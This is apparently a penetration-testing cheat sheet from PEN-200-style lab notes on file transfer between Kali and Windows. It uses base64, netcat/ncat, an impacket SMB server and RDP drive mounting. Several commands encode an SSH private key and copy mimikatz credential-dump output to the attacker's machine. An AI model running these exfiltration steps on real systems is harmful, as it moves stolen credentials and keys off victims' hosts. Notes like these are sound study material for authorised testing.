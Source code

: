 
---
---
# Linux x Windows


base64 encode & decode

```bash
# Base64 Encode
cat id_rsa | base64 -w 0 ; echo

# Decode Base64 String
echo -n 'xxxxx' | base64 -d > id_rsa

```

File Transfer Methods

```bash
# Download File Using Netcat
# Listener on Windows
nc -l -p 8000 > file_to_receive.exe

# Send File to Windows
nc 192.168.1.100 8000 < file_to_send.exe

# Download File Using Ncat
# Listener on Windows
ncat -l -p 8000 --recv-only > file_to_receive.exe

# Send File to Windows
ncat 192.168.1.100 8000 < file_to_send.exe
```

Using SMB

```bash
# On Kali
impacket-smbserver test . -smb2support  -username test -password test

# On Windows
net use m: \\10.10.14.247\test /user:test test 
copy mimikatz.log m:\
```

Using RDP Mounting Shared Folder

```bash
# On Kali 
xfreerdp /cert-ignore /compression /auto-reconnect /u:offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen- 200

# On Windows
copy mimikatz.log \\tsclient\test\mimikatz.log
```

Using Rdesktop

```bash
# on kali
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200

# on Windows
copy mimikatz.log \\tsclient\test\mimikatz.log
```

---
---
